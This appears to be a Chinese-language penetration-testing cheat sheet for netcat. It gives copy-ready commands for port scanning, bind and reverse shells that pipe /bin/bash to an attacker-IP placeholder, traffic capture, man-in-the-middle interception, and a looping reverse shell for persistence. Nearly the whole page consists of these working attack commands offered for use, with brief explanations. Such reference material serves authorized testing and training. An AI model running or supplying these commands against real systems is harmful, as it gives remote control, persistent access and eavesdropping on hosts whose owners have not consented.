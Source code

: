 ```yaml
---
description: 适用于渗透测试的各个阶段
---
```


# ✔️ Netcat

## 信息收集

使用netcat进行端口扫描，以发现目标主机上开放的端口：

```bash
// 端口号可自定义范围
nc -zv 目标IP 1-65535
```

## 绑定shell

在未授权访问测试中，使用netcat绑定反向/正向shell，以获取对目标系统的远程访问权限：

```bash
// 正向shell

// Target:
nc -lvnp 4444 -e /bin/bash
// Attacker:
nc -vn 目标IP 4444
```

```bash
// 反向shell

// Target:
nc -nv 攻方IP 4444 -e /bin/bash
// Attacker:
nc -lvnp 4444
```

## 信息截取

使用netcat进行流量截取，以分析目标主机和外部系统之间的通信内容：

```bash
// Attacker
nc -lvp 8080 > captured_traffic.txt
```

在攻方本机中开启监听，一旦有连接到达，netcat就会开始截取流量并将其写入指定的文件中（在本例中是captured\_traffic.txt）

### 中间人攻击

在网络中，可以将netcat放置在中间位置，拦截目标主机和外部系统之间的通信。这样，netcat就可以截取通信内容，而目标主机和外部系统则不会察觉到：

* 设置监听器：在攻方控制的位置上启动 Netcat，并将其设置为监听模式。监听器应该设置在一个适当的端口上，以便接收到目标主机和外部系统之间的通信。

```bash
// Attacker
nc -lvp 8080 > intercepted_traffic.txt
```

* 重定向流量：攻方需要使用路由器配置或其他技术手段来重定向目标主机和外部系统之间的流量到自己控制的位置。这样，所有通过该位置的流量都将被拦截和记录。
* 拦截通信：一旦流量被重定向到攻方控制的位置，并且Netcat处于监听状态，它就会开始拦截目标主机和外部系统之间的通信。所有的通信内容将被记录到指定的文件中（在本例中是intercepted\_traffic.txt）。
* 分析流量：攻方应该记录分析结果，并根据需要采取进一步的行动，例如通知目标系统管理员、修复安全漏洞或调查潜在的威胁。

## 维持权限

使用netcat建立持久化的反向shell连接，以确保对目标系统的长期访问权限:

```bash
// Target
while true; do nc -nv 攻方IP 4444 -e /bin/bash; sleep 10; done
// Attacker
nc -lvnp 4444
```

##
